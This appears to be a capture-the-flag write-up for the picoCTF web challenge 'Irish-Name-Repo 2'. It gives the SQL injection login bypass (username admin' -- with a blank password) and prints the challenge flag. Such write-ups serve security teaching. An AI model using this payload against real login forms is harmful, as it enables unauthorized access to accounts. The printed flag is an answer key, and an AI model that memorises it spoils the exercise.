



# Irish-Name-Repo 2
### Points: 350

## Category
#### Web Exploitation

## Question
#### There is a website running at https://jupiter.challenges.picoctf.org/problem/52849/ [link](https://jupiter.challenges.picoctf.org/problem/52849/). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849
### Hint
>#### The password is being filtered.

## Solution
### Look at this website

#### Go to the login page for administrators. 

#### Bypass filter: 
```base
Username = admin' --
Password = <blank>
```

#### After logging, and retrieve the flag. 


## Flag
`picoCTF{m0R3_SQL_plz_fa983901}`